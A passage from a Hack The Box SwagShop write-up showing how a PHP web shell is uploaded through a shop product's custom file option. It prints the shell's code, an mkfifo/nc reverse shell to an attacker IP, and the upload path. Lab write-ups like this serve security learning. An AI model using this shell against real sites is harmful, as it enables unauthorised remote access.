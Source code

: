 ![](SwagShop_Web5.png)

Now visit `http://swagshop.htb/` and select the same product.

![](SwagShop_Web6.png)

Now you can upload a PHP Shell here. I will use `callmeback.php` which I have used earlier for[ Nibble.htb](obsidian://open?vault=Windows-HTB-Boxes&file=Nibbles%20HTB) & [Friendzone.htb](obsidian://open?vault=Windows-HTB-Boxes&file=Friendzone%20HTB)
```
# cat callmeback.php                                                       
<?php system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.8 4444 >/tmp/f"); ?>
```

And than Add the Product to Card so that our file get uploaded. I removed the `GIF` Signature from the top for this `callmeback.php` file. The uploaded shell can be found at `/media/custom_options/quote/c/a`.
